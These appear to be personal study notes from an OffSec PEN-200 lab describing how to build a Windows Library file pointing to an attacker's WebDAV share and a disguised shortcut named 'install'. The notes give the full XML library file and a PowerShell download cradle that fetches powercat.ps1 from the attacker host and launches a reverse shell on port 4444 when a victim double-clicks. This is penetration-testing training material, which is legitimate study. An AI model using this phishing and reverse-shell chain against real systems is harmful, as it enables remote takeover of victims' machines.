 #### Setting up Windows library code 
RDP as `offsec` with password `lab` to WINPREP at `192.168.168.250`

`xfreerdp /u:offsec /p:lab /v:192.168.168.250`

Open Visual Studio Code and create new text file `config.Library-ms`

![Figure 8: Empty Library file in Visual Studio Code](https://static.offsec.com/offsec-courses/PEN-200/imgs/atpr/86df23bea32e5fbb78aff5c5054d6bf7-atp_lib_vsc.png)

Copy the Windows Library code used in [[12.3 Abusing Windows Library Files]], paste it in VS code, and change IP to our Kali.

Windows Library code for connecting to our WebDAV Share
```hlt:15
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.119.5</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

Save file and transfer to `/home/kali/beyond`


![[Pasted image 20250302113659.png]]


Next, create shortcut file on WINPREP
- Right click on Desktop > Select _New_ > _Shortcut_

Victim that double clicks shortcut will download PowerCat + launch reverse shell 

PowerShell Download Cradle and PowerCat Reverse Shell Execution for shortcut file
```
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.5:8000/powercat.ps1'); powercat -c 192.168.119.5 -p 4444 -e powershell"
```

Enter this command and **install** as shortcut name. 

Transfer shortcut file to Kali into WebDAV directory.

![[Pasted image 20250302114413.png]]
